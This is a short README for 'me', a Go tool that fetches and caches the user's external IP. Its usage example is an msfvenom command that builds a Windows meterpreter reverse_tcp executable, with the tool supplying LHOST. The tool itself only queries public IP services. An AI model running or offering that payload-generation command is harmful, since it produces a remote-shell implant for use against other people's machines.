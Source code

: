 # me

## Install

```
go install github.com/cokeBeer/me@latest
```

## Usage
For example, we can generate a meterpreter on VPS and fill the `LHOST` parameter simply by `me`
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=`me` LPORT=4444 >mp.exe
```
You will never need to query your external ip and paste it again.

## How it work
For the first time, `me` will request some apis to get your external ip and save the ip to `$USER/.myexternalip`.
```
http://myexternalip.com/raw
http://api.ipify.org/
https://myexternalip.com/raw
https://api.ipify.org/
```
Next time, `me` will get the ip from file.
You can use `-f` option to make `me` query again, and use `-d` option to see debug information when occur errors.

## Warning
Don't use it when you are using a proxy.